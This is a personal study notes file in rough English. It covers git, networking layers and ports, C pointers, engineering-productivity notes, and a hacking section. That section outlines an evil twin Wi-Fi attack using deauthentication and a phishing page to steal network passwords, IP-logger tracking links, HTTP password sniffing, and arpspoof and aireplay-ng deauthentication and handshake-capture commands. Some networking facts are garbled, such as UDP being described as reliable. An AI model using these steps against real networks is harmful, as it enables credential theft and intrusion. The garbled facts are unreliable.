   Git is wonderful way of keeping track of a project, guix is inspired
   by it

   To clone a repository over SSH, use:
  
   git clone ssh://$USER@$IP:$PORT/home/$USER/git-repo

   If you want a directory of a project to be 'gitted', just run inside
   that directory:

   git init .

   This will make all the git commands available for that directory

   git status gives a brief look of changes on your project

   'git add .' will add all the folder to git, so you can also specify
   which files.

   'git commit' makes git to update and add any files of the 'git add'
   command to a commit

   Say your lastest commit removed a file that you know it, in order to
   retrieve it, we should pass to an older commit:

   'git branch' to check which branch are we in, normally 'master'
   'git log' will show us a log of any changes in the project
   'git checkout $HASH' where hash is the hash of the commit that
   stills have the file we want, we see this with the 'git log' command
   When we are now in the commit, we can copy the file and put it in
   another folder
   Now 'return' to the latest branch using the 'git log' 'git checkout
   $HASH' combination again.
   Copy the file you want to the directory again, and now just 'git add
   .' and 'git commit'.

   When doing a new commit, git will ask you who you are, and you'll
   have to use these two commands, or just the email part:

   git config --global user.name "$NAME"
   git config --global user.email "$EMAIL"

   This will say to git, that every 'gitted' file on the pc will be for
   that name and that email.

   If you don't want to use always this identificator, remove the
   '--global' option

   This will allow to identify different users in one project every
   time a commit is made, so you now know which user made the commit

** Tips

   In the internet, is important to always check that the devices in
   place are in the same network, checking its IP addresses

   When working with Printers, always search for the manual and
   troubleshooting information

** Networking  

   Two types of protocols:

   - Stateless Protocols :: Manages every tranference individually, is
	lighter and simpler to manage

   - Stateful Protocols :: More advanced, every 'simple' transference
	is made as a group of larger transferences

   If you can't get into a network, another aproach is to make a client
   of that network to connect to a network you made, this is called an
   evil twin attack 'creating an identical network to what the client
   expects', we can make this using airgeddon 

   The IP of a modem will normally be:

   192.168.(network).1, for example:
   192.168.1.1 or 192.168.100.1

   End-to-End communication is the principle behing any network
   communications, transfering data from one origin to a destination

   To check every network IP address on a network to see who is UP,
   use the script:


   The DoD model is a model for communication on networks and the
   internet, designed by the Departament of Defense of USA

   1. Application layer :: Browsers, interaction with the user

   2. Transport Layer :: Sets up network connections depending on the
	protocol, called sessions for better management, and sends the
	packet to its destination as fast as possible, using IP

   3. Internetwork Layer :: Adds information about the source and
	destination addressess, and where the packet begins and
	ends. o

   4. Network Access Layer :: Low-level physical network that yuo use
	to connect the internet. Is the Ethernet cable and network
	interfaces Card (NIC), or the Wireless Card and Access Point
	(AP). It handles the lowest level, ones and zeroes as they go
	from one point to another, that's why the internet can work
	from cable or from WiFi without a problem

	The IP protocol doesn't care about the package of its state, its
	work is to get the packet to its destination as fast as possible.   

	UDP, the most used protocol in the
	internet, adds another 'wrapping' the outside of the package,
	with instructions about which package it is, the order and
	making sure the package got to the destination and whther the
	package is intact
   
	When sending a package on the internet, TCP bracks up that
	letter into segments, small chunks that are consecutively
	numbered, with a little bit of error checking code at the edn,
	if a packet gets corrupted, TCP request retransmission
	
	UDP, the second plase, doesn't care about if the package is
	correctly received, it just shots datagrams to the target, which
	are similar to segments, but with less optins and without the part
	where it checks if yuo received it or the order.

	Some application layer protocols are:

	File Transfer Protocol (FTP) is used for the transmission of files
	between two devices. Using one port to deliver data, and another to
	send control signals. Its ports are 20 and 21. Uses TCP
   
	Hyper-Text Transfer Protocol (HTTP) is used to transfer HTML files,
	which are the body of web pages. Uses TCP with ports 80. HTTPS, its
	more secure variant which encrypts network traffic uses TCP port
	443

	Simple Mail Transfer Protocol (SMTP) sends mail, uses TCP port 25

	Domain Name Service (DNS) helps us getting the IPs of a server by a
	domain name. uses port UDP 53

	Some Transport layer protocols are:
   
	TCP or Transmissin Control Protocol establishes a logical connection (a
	sesssion) between two hosts on a network. It sets up this conncetion using
	the three-way handshake.

	1. When my computer wants to connect with yours, it sends a SYN packet, which
	   is basically saying, "Let's synchronize clocks so we can exchange traffic
	   with timestamps."

	2. Your computer (if it's going to accept the connection) responds with a
	   SYN/ACK acknowledgment packet.

	3. My computer seals the deal with an ACK packet, and we're connected.

	But this happends only with TCP. Instead, UDP or User Datagram Protocol is a
	transport protocol that doesn't even care if you ave a connection. It's like
	a fire hose: if you catch the stream you catch it, if you don't, you don't.
	This makes UDP very fast, so it's useful for things like streaming voice and
	video, where missing a single frame doesn't matter much, or online gaming,
	where missing a single frame doesn't matter much.

	The Internet layer protocol of course is of course IP, which servers as a
	universal protocol to allow any two computers to communicate through any
	network at any time. 

	Internet Control and Management Protocol (ICMP)

	ICMP is the protocol that the network devices and network administrators use
	to troubleshoot and maintain the network. It includes things like ping
	(Pakcet InterNet Grouper) ad similar commands that test the network and
	report errors. Because people have used things like ping flood to bring down
	hosts and networks, most systems limit ICMP to one response per second.

	To summarize, ports and protocols come together like this:

	The part where IP goes and 'traduces' to physical devices is by the ARP or
	RARP protocols, to IEEEE 802.2 LLC, after this, it can be traduced to:

	- 802.3 Ethernet
	- 802.5 Token Ring
	- 802.11 Wireless LAN
	- 802.15 WIreless PAN
	- 802.16 WiMAX

	Some common ports are:
   
	|  Number | Keywords    | Description                     |
	|---------+-------------+---------------------------------|
	|       5 | rje         | Remote Job Entry                |
	|       0 |             | Reserver                        |
	|     1-4 |             | Unassigned                      |
	|       7 | echo        | Echo                            |
	|       9 | discard     | Discard                         |
	|      11 | systat      | Active Users                    |
	|      13 | daytime     | Daytime                         |
	|      15 | netstat     | Who is UP or NETSTAT            |
	|      17 | qotd        | Quote of the Day                |
	|      19 | chargen     | Character Generator             |
	|      20 | ftp-data    | File Transfer [Default Data]    |
	|      21 | ftp         | File Transfer [Control]         |
	|      22 | ssh         | SSH Remte Login Protocol        |
	|      23 | telnet      | Telnet                          |
	|      25 | smtp        | Simple Mail Transfer            |
	|      37 | time        | Time                            |
	|      39 | rIp         | Resoce Location Protocol        |
	|      42 | nameserver  | Host Name Server                |
	|      43 | nicname     | Who Is                          |
	|      53 | domain      | Domain Name Server              |
	|      67 | bootps      | Bootstrap Protocol Server       |
	|      68 | bootpc      | Bootstrap Protocol Client       |
	|      69 | tftp        | Trivial File Transfer           |
	|      70 | gopher      | Gopher                          |
	|      75 |             | any private dial out service    |
	|      77 |             | any privae RJE service          |
	|      79 | fger        | Finger                          |
	|      80 | www-http    | Word Wide Web HTTP              |
	|      95 | supdup      | SUPDUP                          |
	|     101 | hostname    | NIC Host Name Server            |
	|     102 | iso-tsap    | ISO-TSAP Class 0                |
	|     110 | pop3        | Post Offce Protocol - Version 3 |
	|     113 | auth        | Authentication Service          |
	|     117 | uucp-path   | UUCP Path Service               |
	|     119 | nntp        | Network News Transfer Protocol  |
	|     123 | ntp         | Network Time Protocol           |
	|     137 | netbio-ns   | NETBIOS Name Service            |
	|     138 | netbios-dgm | NETBIOS Datagram Service        |
	|     139 | netbios-ssn | NETBIOS Session Service         |
	| 140-159 |             | Unassigned                      |
	| 160-223 |             | Reserved                        |

	When talking about encapsulation in networking, we refer to the
	series of tranformation the data has to go into in order for it to be
	transferred correctly, a 1 MB file is very heavier and has to be
	separated and that separated data encapsulated in order for it to
	be able to transfer through a network
   
	To this new segments of the 1 MB file, the protocol (TCP or UDP)
	adds header of information to each segment, and the order of these
	if it is TCP

	This segments are transfered into the network layer which adds
	another header which containt the source and destination (IP), and
	some meta information

	The final layer is when the actual transmission of data occurs

	When the data reach to its destination, it has to be
	decapsulated. Each layer passes information to the next layer up to
	the stack, it remvoes the information contained in the header
	placed there by that lower layer

	Media Access Controller (MAC) is the physical address of the network
	card and supposedly can't be changed

	netstat command tells you about network statistics, with whom
	you're connected, how long networking has been up, and so forth, if
	you want to see the connections displayed in a numeric form, use
	the option '-n'

	The OSI model is a layered model with handful of simple
	rules. Similar functions are grouped together in the same layer,
	and every layer is serviced by the layer beneath it, and servers
	the layer above it.

	This layered model is a good idea, because since every layer does its own
	communication, new developments in any one layer don't breadk any of the
	other ones. This feature alone may explain the internet boom, with new
	applications and services appearing almost each day.

	Besides the two rules of this OSI model, we've already discussed (similar
	functions are grouped, and every layer is serviced by the layer beneath and
	serves the layer above it) this standard has one more strict rule. Every
	layer involved in communication from one computer communicated directly with
	the same layer on the other computer. This means that when you type
	www.google.com in your browser, there is a direct interaction etween your
	computer's Layer 7 interface (your web browser) and Google.com's web servers
	(also a Layer 7 interface), and that the same can be said of any other layer.
   
	First, comes the application Layer, responsible for direct interaction
	between applications and the user interface to the paplicaiont, for instance
	the use of a web browser like IE or Firefox.

	Then, the Presentation Layer, responsible for guaranteeing that data is
	exchanged in a way that is comprehensible between both parties. In some
	services that use a form of encryption, the encryption happends at the
	presentation layer.

	The Session Layer, responsible for dialogue control between two computers.
	Basically it establishes, manages and terminates all connections that happen
	between the computers.

	Transport Layer, provides transparent transfer of data between computers,
	providing reliable data transfer services to the upper layers. This means
	that it is responsible for assembling all data in smaller portins that can be
	carried reliably on a data network. If a packet is lost or not receive, it is
	the transport layer's job to make sure that single packet is retransmitted
	and then reassembled in the correct order.

	Then, the Network layer, which is responsible for the addressing part of the
	connection. Not only on ensuring that each address is unique on the network,
	but also on making sure that whatever path is available (whether a good or a
	bad one), it always delivers the information where it needs to go, and that
	our information will be sent from hop to hop until it reaches its final
	destination.

	The Data Link Layer, was designed to deal with ensuring the pysical layer can
	recover from errors that might happen and to deal with different connecting
	mediums. Basically it prepares (encapsulates) data so that it can be
	transmitted over whatever physical means are necessary (radio waves,
	fiber-optic, cable, copper).

	Then, the Physical layer defines the physical specifications of the devices
	and what needs to be done in order for the information to be transmitted over
	the selected medium. For a WiFi connection, this is a radio signal; for a
	fiber connection it's the light being sent; or for a copper connection the
	electronic signal being sent on the wire.

	The seven layers comprise everyting that is needed for the reliable
	communication.

	The Hypertext part of the HTTP protocol refers to the non-linear way you read
	it. You normally read in a linear fashion: page 1 then page 2. Hypertext lets
	you look at information in a non-linear way. You can jump around from topic
	to topic, learning as you go, then retrace your steps and maybe go see other
	information before you finish the parent article. That's the difference
	between hypertext and plain text.

	There are two parts to email: SMTP (Simple Mail Transfer Protocol), which
	send mail, and the mail server, either POP (POST Office Protocol) or IMAP
	(Internet Message Access Protocol), which retrrieves your email.

	The passwords are generated by the 'http.request.method ==POST' command of
	HTTP, so in wireshark you could search for that.

	ISPs

	IN order to access the Internet. You need to access a server that will
	connect your computer to the internet. The server does all the heavy work,
	and is on all the time. The server is run by an Internet Service Provider
	(ISP).

	An ISP has a point-of-presence on the internet that is constant, and it has
	servers that run services you can use. But you can run these services on your
	own, too. For example, you can run a mail server on your local computer, but
	it will require you to have your computer powered up and connected to a
	network all the time, just waiting for those bried moments when information
	has to be exchanged. An ISP, however, consolidates the efforst of a large
	number of users, so the mail server is working all the time, instead of
	sitting around, doing nothing. The ISP's computer use a high speed connection
	to connect to a Network Acces Point (NAP). These NAPs then interconnect with
	each other through ultra-high speed connections called backbones. All these
	things together are the internet.

	HTTP, the acronym for Hypertext Transfer Protocol, is located on the top of
	TCP/IP stack as is defined in two main RFC:

	- 1945 for 1.0 (based from 0.9).

	- 2616 for 1.1.

	There are some substantial upgrades and differences from 1.0 to 1.1 for
	Extensibility, Caching, Bandwidth optimization, Network connetion management,
	Message transmission, Internet address conservation, Error notification,
	Security, integrity, and authentication, Content negotiation. Differences
	between 1.0 and 1.1 are useful to obtain information about a web server.

	Basically HTTP is a stateless protocol in which Client sends an HTTP request
	to Server, which send an HTTP response: the Request/Response
	paradigm.

	Hubs, Routers and Switches:

	Each the Hub and the Switch serve as a central connection for all of your
	network equipment and handles a data type known as ethernet frames. Frames
	carry your data. When a frame is received, it is transmitted on to the
	physical port the destination PC is plugged into. The big difference between
	these two devices is in the method for delivering frames.

	In a Hib, incoming frames are broadcasted to all ports. It doesn't matter
	that the frame is only destined for one machine. The hub as no way of
	distinguishing which port a frame should be sent to. Passing it along to eery
	port ensures that it will reach its intended destination. This puts a lot of
	traffic on the network and can lead to poor network response times. Since a
	hub broadcasts every packet to every machine or node on the hub, a filter in
	each computer discards packets not addressed to it. A packet sniffer disables
	this filter to capture and analyze some or all packets traveling through the
	hub, depending on the sniffer's configuration.

	A switch, on the other hand, keeps a record of the Media Access Control (MAC)
	or physical addressess of all the devices connected to it. With this
	information, a switch can identify which system is on which port. So when a
	frame is received, the switch knows exactly which port to send it to, without
	significantly increasing network response times. That's why a switch is
	considered to be a much better choise than a hub. Rather than a central hub
	that broadcasts all traffic on the network to all machines, the switch acts
	like a central switchboard. It receives packets directly from the originating
	computer and sends them directly to the machine to which they are addresses.
	This makes sniffing packets on a switch much more difficult. You can only see
	traffic that is intended for your machine - unless you use more advanced
	techniques such as ARP poisoning (see Ettercap above or Cain and Abel for a
	Windows tool).

	Routers are completely different devices. Where a hub or switch is conerned
	with transmitting ethernet frames at the local Layer 2, a router's jon, as
	its name implies, is to route IP packets to other networks, which is a Layer
	3 operation. A packet contains the source address it came from and the data,
	and the destination address of where it's going.

	A router is designed to join two or more networks, commonly two Local Area
	Networks (LANs) or Wide Area Networks (WANs), or a LAN and its ISP's network.
	Routers are located at gateways, the places where two or more networks
	connect. Using headers and forwarding tables, routers determine the best path
	for forwarding the packets. Routers use protocols like ICMP to communicate
	with each other and configure the best route between any two hosts. The same
	packet sniffing issues apply to routers that apply to switches.

** netcat

   The TCP/IP tool kit

** curl

   The HTTP tool kit

** Proxy

   Like OWASP ZAP or Burpsuite free

** Openssh

   In controlling a PC remotely is needed (target is with GNU/Linux)
   the best is to use ssh, we can also copy files and run
   commands. Install openssh in the target and the pc your will use to
   control remotely the server

   We'll want to generate a public key in order to connect securely
   without password, adter installing openssh run:

   ssh --gen-key

   To copy data using ssh, use the 'scp' command:

   scp -P $PORT $FILE $IP://home/$USER/Documents

** Computing

   Registers are small memory spaces located in the CPU that stres and
   manipulate data, some operations can only be done in the context of
   registers, for example, read/write memory or arithmetic

   Most operations on a computer bases on moving data from the RAM or
   from the hard drive to registers to be processed. Resgisters are
   quick, but limited, depending on the arquitecture can be from 6
   to 32.

   Since the register is limited is why we use RAM and long term data
   (hard drive)

   RAM is needed as a middle between the hard drive and the registry,
   moving data from the hard drive to the registry is slower since is
   long term data, so the hard drive gives the RAM data that it won't
   save, as application processes and such, and the RAM works hand by
   hand with the registry as the registry ends processes sended by the
   RAm and request more

** Computer Science

   Learning the Basics, Java:

   All you need to know, is that we have variables, condicional
   statements to do different things things based on this variables, we
   have functions, we have the ASCII table o represent characters with
   numbers and we have a race, which can store multiple variable, kind
   of.

   You an put objects inside another objects, once you are familiar
   with data structure, is when your coding begins to be fun.

   In the C language you got to do everything yourself.

   Low level Programming: The C language.

   allocate memory with the size of int times 3:

   #+BEGIN_SRC c

     #include<stdio.h>
     #include<stdlib.h>

     int main() {
       int *num = malloc (sizeof (int) * 3);
       ,*num = 5;

       printf("%d\n", *num);
       return 0;
     } 

   #+END_SRC

   We've created a pointer, if we want access this block (8001), all we
   have to do is we have to say:

   Pointer plus 1, or pointer plus 2.

   | Pointer | 8000 |
   |---------+------|
   | ------> | 8001 |
   | ------> | 8002 |
   | ------> | 8003 |

   #+BEGIN_SRC c

       #include<stdio.h>
       #include<stdlib.h>

       int main() {
	 int *num = malloc (sizeof (int) * 3);
	 num[0] = 5;
	 num[1] = 30;
	 num[2] = 67;

	 printf("%p -> %d\n", num, *num);
	 printf("%p -> %d\n", num+1, *(num+1));
	 printf("%p -> %d\n", num, *(num+2));
  
	 //  printf("%d\n", *num);
	 return 0;
       } 

   #+END_SRC

   num[1] line and printf num+1 line are the exact same thing.

   Every other language is built on top of this, so once you understand
   how C works, you can do everything.
  
   Data Structures and String, The C language:

   Here's a list structure which contains a function pointer, a pointer
   to a function, so it's kind of the same as an object in Java, we
   have varaibles and we have functions, it's at a lower level now.

   #+BEGIN_SRC c

     #include <stdlib.h>

     typedef struct listHead{
       Node *head;
       Node *tail;
       void (*deleteNode)(void *toBeDeleted);
       int (*compare)(const void *first,const void *second);
       void (*printNode)(void *toBePrinted);
     } List;  

   #+END_SRC

   And they I had to do:

   #+BEGIN_SRC c

     if(list->head == NULL) {
       list->head = add;
       list->tail = add;
     }  
     // If list is empty, set head and tail

   #+END_SRC

   In C, strings do not exist, you create an array of characters, and
   we're gonna call it string sieof char times 10, the last character
   is a backslash 0:

   #+BEGIN_SRC c

     #include<stdio.h>
     #include<stdlib.h>

     int main() {
       char *str = malloc(sizeof(char) * 10);
       str[0] = 'h';
       str[1] = 'e';
       str[2] = 'l';
       str[3] = 'l';
       str[4] = 'o';
       str[5] = '\0';
       printf("%s", str);
       return 0;
     }  

   #+END_SRC

   Nobody does it this way, instead we use:

   #+BEGIN_SRC c

     #include<stdio.h>
     #include<stdlib.h>

     int main() {
       char *str = malloc (sizeof(char) * 10);
       strcpy(str, "hello");
       printf("%s", str);
       return 0;
     }  

   #+END_SRC

   And it does the same thing.

   Assembly Programming, The 68000 microprocessor:

   Java is pretty high level, you break it down it to C, a low level
   and understand it, and now you got to write assembly, and assembly
   can run on a chip, yuo need to understand hexadecimal.

   This is the assembly equivalent of some num pushing.

   Addition/Subtraction an even lower level:

   A minus B is the same as A plus negative B, how we represent B in a
   negative form?, all you need to know is flip all the bits and one
   (Two's complement).

   Whetever a number starts with 1, it's negative

   Everything is addition:

   Every data structure is built on top of pointers and poinrters
   operate using addition and substraction. It's implemented by
   addition, so all we have is addition.

   A full adder involves two and gates or gate xor xor and then these
   gates are implemented using transistors (full adder). As AND, OR,
   NAND, NOR or NOT.

** Hacking
*** Gathering information

    We should generate a report of any information we have about our
    target

    If you have an IP address, you can check its OS and ubication
   
    PaginasBlancas for getting phone numbers
   
    Every interaction shows information about the PC, because the
    protocols always have to add a 'from who' part in the transfering
    file, being it through TCP or UDP
   
    portalhacker.net
   
    Lbrary
   
    Cybrary
   
    Redirect port 53 to port 53
   
    port 80 = TCP
    port 53 = UDP
   
    Sniffing the Connection Between you and the HHS HHTP Server   
   
    Once you have the IP address, you can access the records of the various
    members of the Number Resource Organization (http://www.arin.net/,
    http://www.ripe.net/, or http://www.apnic.net/), to gain insight about how IP
    addresses are distributed.
   
    Identifying the wner of a domain is:

    - Identifying the owner, usually full name

    - Contact information, which may include street addresses, phone
      numbers and email addresses

    - The DNS server where the doamin is registeres, which may also
      tell you the ISP that serves up the domain

    - The IP address of the server, another potential clue to the ISP

    - Domain name information, like the date it was created, when it
      was updated and when it will expire

    Keep in mind that there are a lot of different domain name registrar, and not
    all whois databases contain the information for all domains. You may have to
    look at more than one whois database to find information about the domain
    that you are investigating.

*** Twin Evil Attacks

    When creating an identical network for another network, one must
    know the password or trigger some things that make the user connect
    to our network instead of the one they are already in.

    We'll use airgeddon for this, we'll kick out the user from the
    network they were in, in order for them t oconnect to our identical
    network.

    After they connect to our network, we give the user a phising page
    identical to their router administrator asking them for their
    network credentials.

    In order to be sure that the user actually puts their correct netwrk
    credentials, we have to capture a handshake and compare.

    First, we will have the victim which is conneted to an AP connected
    to the internet we don't know the password.

    We will put in the middle of the victim's communication with the AP
    and terminate this connection, and force them to go through our
    phising page.

    To disable this connection, we'll need a wireless network adapter
    with the ability of inject packages to tell the victim that the AP
    wants to disconnect from the network, and the AP that the victim
    wants to disconnect.

    This confusion creates an inability for these two to exchange
    information

    At this point, we'll create a network with the same credentials of
    the AP, except for the security method which will be free so the
    user doesn't have any problem connecting to it.

    If we knew the password, we could redirect a lot of network traffic,
    since this is not the case, we have to do something in order for the
    victim to give us the password.

    We'll display a phishing page for this.

    Once a password is given, we'll compare the hash with a previous
    captured hash, and if it is wrong, we won't give them access to their
    network.

    This attack is automated and a good attack for people who aren't
    good with technology.

    The evil twin attack is a social engineering attack.
*** Infoga

    A good tol to check for email addresses using a domain

*** IpLogger

    Is a tool that allows us to modify a link, so anyone who enters the
    link reveals its public address, thus its router, OS and ubication.

*** Wireshark

    Helps us get information about traffic on our network, thus seeing
    information about who sent us which package, and seeing its IP
    address.
   
    Captures every package that goes through your netwrk  and details
    as the headers and the protocol.
   
    We can filter tcp.
   
    We can watch passwords sent to an unprotected website (HTTP).

    We can filter http.
   
    WE can filter http.request.method=="POST" filters how many packages
    of http with a method post (used for formularies).

*** Github Effective engineer notes

    Focus on High Leverage Activities:

    Leverage = Impact Produced / Time Invested.
  
    80% of the impact comes from 20% of the work.

    And effective engineer is an engineer that produces results.

    Focus on High Leverage Activities:

    Leverage = Impact Produced / Time Invested.

    Use Leverage as Your Yardstick for Effectiveness.

    80% of the impact comes from 20% of the work.

    Focus on high leverage and not just easy wins.
   
    Optimize for Learning:

    Change jobs if you have to.

    Optimizing for learning is high leverage.

    Adopt a growth mindset.

    - Talk to people. Become good at telling stories. It gets better with time.

    - Those with a growth mindset believe that they can cultivate and grow their
      intelligente and skills through effort.

    -  Own your story

    Invest in the rate of learning.

    - Learning compounds. Compounding leads to exponential growth. Earlier the
      compounding starts, the better.

    - Working on unchallenging tasks is a huge opportunity cost. You missed out
      on compounded learning. 

    - Prioritize learning over profitability.

    - Invest your time in activities with the highest learning rate.

    Seek Work Environments Conducive to Learning

    - Fast Growth: Companies where #problems >> #resources. Opportunity to choose
      high impact work.

    - Make sure you are working on high priority projects.

    - Openness, look for culture with curiosity, where everyone is encouraged to
      ask questions.

    - Fast Paced.

    - People smarter than you.

    - Autonomy, Freedom to choose what to work on. Smaller companies => MOre
      autonomy.

    While on Job

    - Make a daily habit of acquiring new skills.

    - Read code written by brilliant engineers.

    - Jump fearlessly into code you don't know.

    - Always be learning. Invest in skills that are in high demand.

    - Read Books. Attend Conferences.

    - Build and maintain strong relationships.

    Prioritize Regularly:

    Opportunity cost of working on wrong ideas can set back growth by years.

    Prioritize task based on ROI (Return On Investment)

    Regular prioritization is high leverage activity.

    On TODO lists:

    Maintain a single todo lists where all task are listed.

    Don't try to remember stuff. Bain is bad at remembering. It's rather good at
    processing

    Ask yourself regularly: Is this the most important thing I should be working
    on?

    Focus on what directly produces value.

    Learn to say no.

    Focus on the important and non-urgent.

    Find ways to get into flow. "A state of effortless concentration so deep that
    they lose their sense of time, of themselves, of their problems."

    When possible, preserve large blocks of focused time in your schedule.

    Limit the amount of Work in Progress.

    Cost of context Switching is high.

    Prioritizing is difficult.

    Prioritization is high leverage. IT has huge impact on your ability to get
    right things done.

    Invet in Iteration Speed:

    Continuous Deployments is high leverage.

    Will save a lot of time in manual deployment of code. THey are the people who
    get things done. Effective Engineers produce results.

    Move fast to learn fast.

    Move fast and break things.
   
    Moing fast enables us to build more things and learn at faster rate.

    Invest in time saving tools.

    If you have to do something more than twice, write a tool the third time.

    Tools are multipliers that allow your to scale your impact beyond the
    confines of a day.

    Faster tools get used more often.

    Faster tools can enable new workflows that previously weren't possible.

    Productivity skyrockets with tools.

    Time saving property of tools also scale with team adoption.

    Shorten your debuggin and validation Loops.

    Extra time spent in optimizing debugging workflow can help you fix annoying
    bugs with less headache.

    Debudding is hard. It's time consuming. Upfront investments to shorten
    debugging loops are worth it.

    High test coverage to reduce buiild and site breakages.

    Fast unit tests to encourage people to run them.

    Fast and incremental compiles and reloads to reduce development time.

    Master your programming environment.

    One Editor, One high level language. Shell. Keyboard > Mouse. Automare manual
    workflows. Use interactive shell. Make running specific test easy.

    Faster you cna iterate, faster you can learn.

    Measure what you want to Improve.

    Use metric to drive progress.

    If you can't measure it, you can't improve it.

    Good Metric help you focus on right things, drives forward progress and helps
    you guard against future regressions.
   
    Performance ratcheting, any change should strictly improve the metric.

    Bad metric can lead to unwanted behavior.

    Examples:

    #hours worked < productivity

    click through rates < long click through rates.

    Metric you choose influences your decisions and behavior.

    Look for metric that, when optimized, maximizes impact for the team.

    Actionable metric - Those movement can be casually explained by team's
    effort.

    Responsive Metric - Updates quickly to give back feedback whether a given
    change was =ve or -ive.

    Choosing a metric iss high leverage.

    Dedicate time to pick right metric.

    Instrumate everything to unerstand what's going on.

    Measure anything, measure everything.
   
    Graphite, statsd. A single line of code lets you define a new counter or timer
    on the fly..
   
    Measuring goals you want to achieve is high leverage.

    Internalize useful numbers:

    Knowledge of useful numbers provide a valuable shortcut for knowing where to invest efforts to maximize gains.

    Need upfront work. Need not be accurate, ballpark idea suffices.

    Knowing useful numbers enables you to do back of the envelope calculations to
    quickly estimate the performance properties of a design without actually
    building it.

    Internalizing useful number help you spot anomalies. Be skeptical about data
    integrity.

    Log data liberally.

    Build tools to iterate on data accuracy sooner.

    Examine data sooner.

    When numbers look off, dig in to it sooner.

    Measure your progress. Carefully choose your top-level metric. Instrument
    your system. Know your numbers. Priorize data integrity.

    Validate your ideas early and often:

    Not validating early leads to wasted efforts.

    Don't delay get feedback.

    Find low effort ways to validate work.

*** Aircrack-ng

    A complete suite of tools to audit a network's security.

    It focuses on different areas of WiFi security:
  
    - Monitoring :: Packet capture and export of data to text files for further
                    processing by third party tools.

    - Attacking :: Replay attacks, deauthentication, fake access points and
                   others via packet injection.

    - Testing :: Checking WiFi cards and driver capabilities (capture and
		 injection)

    - Cracking :: WEP and WPA PSK (WPA 1 and 2).

    arpspoof -i (interface) -t (target) 192.168.1.42 192.168.1.1 -r (for a double attack)

    aircrack-ng, tool for changing a device of monitor mode

    airodump-ng, allows us to see traffic of our monitor mode device

    airdump-ng -c 11 --bssid 00:00:00:00:00:00 -w /root/no.nap wlan0mon

    Scans channel 11 and the bssid given and generates a file in /root/
    in a file
   
    airodump-ng is traffic capturing, not package capturing

    To web security: airdecap-ng

    Desencriptar con airdecap-ng

    airdecap-ng -l -e empresawisp -p caja5755apache trafico-01.cap

    After scanning traffic on a given aerea, we can make an:

    airodump-ng -c (channel)11 --bssid (MAC ADDRESS) -w (path for the file)

    After capturing the traffic, we can make an airdecap-ng (file created).cap,
    this decrypts the file

    Then, a (file)-dec.cap will be created, and that file can be accessed through
    wireshark.
   
    "Remove" internet:

    airmon-ng
   
    airmon-ng start wlan0
   
    airodump-ng wlan0mon
   
    airodump-ng -c 1 --bssid (MAC) -w (destiny) wlan0mon
   
    airodump-ng -c 9 --bssid otra red -w (file)
   
    airmon-ng check kill

  
    BSSID: The MAC address of the AP (Access Point). In the Client section, a
    BSSID of "(nor associated)" means that the client is not associated with any
    AP. In this unassociated state, it is searching for an AP to connect with.
   
    PWR: Signal level reported by the card. Its signification epends on the
    driver, but as the signal gets higher you get closer to the AP or the station.
    If the BSSID PWR is -1, then the driver doesn't support signal level
    reporting. If the PWER is -1 for a limited number of stations then this is for
    a packer which came from the AP to the client burthe client transmissions are
    out of range for your card. Meaning you are hearing only 1/2 of the
    communication. 
   
    RXQ: ONly shown when on a fixed channel. Receive Quality as measured by the
    percentage of packets (management and data frames) success-fully received over
    the last 10 seconds. It's mesasure over all management and data frames. THat's
    the clue, this allows you to read more things out of this value. Lets say you
    got 100 percent RXQ and all 10 (or whatever the rate) beacons per secon coming
    in. Now all of a sudden the TX drops below 90, but you still capture all sent
    beacons. Thus you know that the AP is sending frames to a client but you can't
    hear the client nor the AP sending to the client (need to get closer). Another
    thing would be, that you got a 11MB card to monitor and capture frames (say a
    prism2.5) and you have a very good position to the AP. THe AP is set to 54MBit
    and then again the RXQ drops, so you know that there is at least one 54MBit
    client connected to the AP.
   
    Beacons: Number of beacons sent by the AP. Each access point send about ten
    beacons per second at the lowest rate (1M), so they can usually be picked up
    from very far.
   
    When looking at the man page for airmon-ng, we get:
   
    airmon-ng - POSIC sh script designed to turn wireless cards into monitor mode. 
   
    This script can be used to enable monitor mode on wireless interfaces. It may
    also be used to go back from monitor mode to managed mode. Entering the
    airmon-ng command without parameters will show the interfaces status. It can
    also list/kill programs that can interfere with the wireless card operation.

    #Data: Number of captured data packets (if WEP, unique IV count), including
    data boardcast packets.

    #/s: Number of data packets per second mesaure over the last 10 seconds.

    CH: The channel that the AP is using.

    MB: Maximum speed supported by the AP. If MB = 11, it's 802.11b, if MB = 22
    it's 802.11b+ and higher rates are 802.11g. THe dot (after 54 above) indicated
    short preamble is supported. 'e' indicates that the network has QoS (802.11e)
    enables.

    ENC: Stands for encryption, the type of security that it has, normally to
    ever network it will be WPA2, which is widely used.

    OPN = no encryption, "WEP?" = WEP or higher (not enough data to choose between
    WEP and WPA/WPA2), WEP (without the question mark) indicates statis or dynamic
    WEP, and WPA or WPA2 if TKIP or CCMP or MGT is present.
  
    CIPHER: The cipher detected. One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104.
    Not mandatory, but TKIP is typically used with WPA and CCMP is typically used
    with WPA2. WEP40 is displayed when the key index is greater than 0. The
    standard states that the index can be 0-3 for 40bit and should be 0 for 104
    bit.

    AUTH: Stand for authentication, stands for the method of well, authentication,
    normally, it will be on 'PSK' (pre-shared key for WPA/WPA2) , which means that it needs a password in order
    to authenticate. MGT (WPA/WPA2 using a separate authentication server), SKA
    (shared key for WEP) or OPN (open for WEP).

    ESSID: THe name of the network.

    We'll normally see your target, and we can filter airodump-ng to give us all
    the information we want only about our target with '-d', which shows only
    networks matching the givven BSSID, for example:

    airodump-ng wlan0mon -d E4:BE:ED:D5:FB:D1  

    This will give us all the traffic happening, and some 'STATION' field, which
    is the MAC addressess of the ones that are connected to the network.

    When looking at the manuel of aircrack-ng it says:

    aircrack-ng - a 802.11 WEP / WPA-PSK key cracker

    There's an option for airdump-ng (-i) that only takes data useful for
    cracking, I'm not sure how to use it though.

    Capturing all the data iwthout the (-i) option, gives files that can be readed
    by wireshark.

    sudo aireplay-ng -0 0 -a E4:BE:ED:D5:FB:D1 -c F8:84:F2:1D:5E:20 -x 150
    wlan0mon

    This disconnect my phone of the network, I had before a message about the
    channel, for example: the AP is on channel 6 but wlan0mon is on 3, this was
    fixed with:

    sudo airmon-ng start wlan0mon 6
  
    -------------------------------------

    sudo airmon-ng

    sudo airmon-ng start wlan0 #wlan0 becomes wlan0 (is now on monitor mode)

    airodump-ng wlan0mon -w

    In the network 'beacons' = ethernet, cable. 

    In the network #Data = WiFi.

    aircrack-ng (file).cap

    Autenticación: network down

    aireplay-ng -0 3 -a (AP) -c (TARGET) -x 150 wlan0mon

    This will make a WPA handshake

    aircrack-ng (file).cap

